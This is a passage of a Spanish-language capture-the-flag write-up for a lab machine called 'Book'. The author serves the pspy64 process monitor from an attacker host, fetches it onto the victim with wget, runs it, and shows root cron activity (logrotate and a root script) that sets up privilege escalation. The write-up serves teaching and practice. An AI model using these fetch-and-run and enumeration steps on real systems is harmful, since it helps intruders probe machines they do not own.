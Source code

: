 Os recomiendo el pspy64.

```
https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0

```
Esto es todo lo que tengo en mi directorio actual.
```
┌─[root@D4YZER0]─[/home/s3k0ndz/Maquinas/Book/explotation]
└──╼ #ls
 pspy64
```

Levanto un server en el puerto 80 de mi máquina.
```
python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Y desde la máquina víctima me descargo el pspy64. 

```
reader@book:/dev/shm$ wget http://10.10.14.52:80/pspy64
--2022-07-22 07:53:17--  http://10.10.14.52/pspy64
Connecting to 10.10.14.52:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                      100%[========================================================================================>]   2.94M  3.72MB/s    in 0.8s    

2022-07-22 07:53:18 (3.72 MB/s) - ‘pspy64’ saved [3078592/3078592]
```

Una vez lo tenemos en la máquina victima, le damos permisos de ejecución.

```
chmod +x pspy64
```

Ejecutamos el programa y vemos lo siguiente...

```
./pspy64
```

```
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...

2022/07/22 07:55:37 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2022/07/22 07:55:40 CMD: UID=0    PID=117957 | /usr/sbin/logrotate -f /root/log.cfg 
2022/07/22 07:55:40 CMD: UID=0    PID=117956 | /bin/sh /root/log.sh 
2022/07/22 07:55:40 CMD: UID=0    PID=117958 | sleep 5 
```